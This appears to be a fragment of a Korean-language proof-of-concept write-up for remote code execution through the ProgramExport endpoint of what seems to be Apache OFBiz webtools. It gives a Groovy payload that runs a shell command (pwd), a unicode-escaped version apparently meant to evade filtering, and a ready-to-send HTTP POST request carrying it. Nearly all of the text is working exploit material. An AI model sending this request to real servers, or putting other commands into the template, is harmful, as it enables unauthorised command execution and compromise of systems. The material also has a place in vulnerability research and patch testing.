 ![](5.ls-al.POC.png)

### pwd 명령 POC

명령어 (pwd)
```
grovyProgram=throw new Exception('pwd'.execute().text);
\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0070\u0077\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0070\u0077\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B